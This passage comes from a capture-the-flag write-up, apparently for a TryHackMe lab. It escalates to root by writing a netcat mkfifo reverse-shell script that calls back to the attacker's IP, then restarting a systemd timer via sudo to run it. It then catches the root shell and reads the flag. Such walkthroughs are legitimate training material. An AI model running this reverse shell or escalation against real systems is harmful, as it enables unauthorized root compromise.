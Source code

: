 ```sh
$ echo "#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.32.195 4242 >/tmp/f" > /tmp/shell

$ chmod +x /tmp/shell
```

Now that everything is properly setup, let's now restart the services. ake sure you have an active listener on your attack machine beforehand.

```sh
$ sudo -u root /bin/systemctl stop vulnnet-auto.timer
$ sudo -u root /bin/systemctl daemon-reload
$ sudo -u root /bin/systemctl start vulnnet-auto.timer
```

and we're root!

```sh
$ rlwrap nc -nlvp 4242 
listening on [any] 4242 ...
connect to [10.4.32.195] from (UNKNOWN) [10.10.192.140] 34666

whoami
root
```

Let's get that flag!

```sh
$ cat /root/root.txt
THM{REDACTED}
```
